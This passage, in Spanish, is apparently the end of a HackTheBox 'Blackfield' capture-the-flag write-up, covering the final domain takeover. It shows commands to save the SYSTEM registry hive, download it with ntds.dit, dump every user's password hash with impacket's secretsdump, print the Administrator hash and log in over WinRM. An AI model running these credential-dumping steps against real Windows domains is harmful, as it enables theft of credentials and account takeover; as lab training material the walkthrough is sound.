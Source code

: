 ```bash
reg save hklm\system C:\ProgramData\system
```
Y se nos copiará en el directorio un archivo llamado system.

A continuación descargamos el archivo system y ntds.dit con el comando download.

Una vez descargado podemos realizar el volcado de hashes de todos los usuarios del sistema, gracias a los archivos system y ntds.dit

A través de impacket-secretsdump.py

![](/assets/images/HTB/Blackfield-HackTheBox/hashes.webp)

Ahora ya tenemos el hash del usuario administrador.

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
```

Y ya podemos loguearnos como administrador a través de winrm.

![](/assets/images/HTB/Blackfield-HackTheBox/root.webp)

![](/assets/images/HTB/Blackfield-HackTheBox/finish.gif)
